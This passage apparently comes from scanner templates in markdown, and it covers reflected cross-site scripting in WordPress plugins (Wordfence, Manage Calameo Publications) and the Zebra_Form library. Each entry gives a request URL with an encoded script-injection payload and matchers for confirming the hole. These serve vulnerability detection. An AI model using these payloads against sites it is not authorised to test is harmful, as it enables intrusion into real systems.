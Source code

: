 - {{BaseURL}}/wp-content/plugins/wordfence/lib/diffResult.php?file=%27%3E%22%3Csvg%2Fonload=confirm%28%27test%27%29%3E
### Matchers

**Type - word**
- words
    1. '>"\<svg/onload=confirm('test')>
- part - body

**Type - word**
- words
    1. text/html
- part - header

**Type - status**
- status
    1. 200

---
# WordPress Manage Calameo Publications 1.1.0 - Cross-Site Scripting
## Description
- WordPress Manage Calameo Publications 1.1.0 is vulnerable to reflected cross-site scripting via  thickbox_content.php and the attachment_id parameter.

- severity - medium
- tags - wordpress,wp-plugin,xss,wp,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/athlon-manage-calameo-publications/thickbox_content.php?attachment_id=id%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E%26
### Matchers

**Type - word**
- part - body
- words
    1. ath_upload_calameo_publication(id\">\<script>alert(document.domain)\</script>&)

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Zebra_Form PHP Library \<= 2.9.8 - Cross-Site Scripting
## Description
- Zebra_Form PHP library 2.9.8 and prior (which is used by some WordPress plugins) is affected by reflected cross-site scripting vulnerabilities via process.php.
